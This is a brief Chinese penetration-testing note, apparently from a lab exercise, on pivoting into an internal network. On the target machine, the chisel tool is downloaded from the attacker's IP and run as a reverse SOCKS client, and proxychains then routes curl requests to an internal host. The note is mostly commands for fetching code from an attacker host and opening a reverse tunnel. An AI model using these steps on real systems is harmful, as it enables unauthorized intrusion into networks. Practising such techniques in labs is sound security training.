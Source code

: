 攻击:
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

gunzip chisel_1.8.1_linux_amd64.gz
chmod +x chisel_1.8.1_linux_amd64

python3 -m http.server 8000

靶机:
wget http://192.168.168.10:8000/chisel_1.8.1_linux_amd64   这里记得换攻击机ip
chmod +x chisel_1.8.1_linux_amd64

攻击机:
ctrl+c 暂停8000端口监听
./chisel server -p 18080 --reverse
sudo apt install proxychains

在/etc/proxychains.conf文件最后一行写: socks5 127.0.0.1 1080
如果前面有socks3 socks4的话要把socks3 socks4 删除

靶机:
./chisel_1.8.1_linux_amd64 client 192.168.168.10:18080 R:socks

攻击:
proxychains curl http://192.170.84.3